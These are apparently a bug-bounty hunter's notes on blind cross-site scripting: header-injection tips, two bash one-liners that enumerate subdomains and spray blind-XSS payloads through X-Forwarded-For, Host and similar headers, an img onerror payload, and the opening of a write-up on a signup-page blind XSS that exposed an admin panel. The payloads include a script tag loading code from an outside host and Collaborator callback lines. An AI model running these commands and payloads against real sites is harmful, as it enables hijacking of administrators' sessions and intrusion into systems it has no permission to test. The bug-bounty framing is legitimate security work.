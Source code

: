 The test case that is missed out by many hunters is injecting the payload in the requests headers like User-Agent, Referer, Origin, etc..


Modify, customize, innovate accordingly based on your requirements and your own ideas.


```bash
subfinder -d target.com | gau | bxss -payload '"><script src=https://.....></script>' -header "X-Forwarded-For"

```

```bash
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ""\n";done\
```


> site:hackerone.com inurl:reports "blind XSS"

![](https://miro.medium.com/v2/resize:fit:875/1*7JGzkBWtOf-DjAKlGTsUcw.png)

```html
try: ...endpoint/<img src="x" onerror="prompt(document.domain)">xssa
```

## Exploiting Blind XSS in a Signup Page: Admin Panel Takeover and Real-World Impact ($3000 P2 Private Program)

#blind_xss

This vulnerability resided in the **username field**, where I injected a **Blind XSS payload**. The next day, my **XSS Hunter** instance lit up, revealing an image of the **admin panel interface** along with sensitive details.

# Understanding Blind XSS

Unlike **Reflected or Stored XSS**, Blind XSS triggers in an environment where the attacker does not receive an immediate response. Instead, the injected payload executes when accessed by a **privileged user**, typically in **internal dashboards, admin panels, or support ticket systems**.

# Step-by-Step Exploitation

# 1. Identifying the Injection Point

- The **Signup Page** accepted a `username` parameter, which was stored and later processed by backend administrators.
- There was **no proper sanitization or output encoding** in place, making it a perfect candidate for **Blind XSS**.
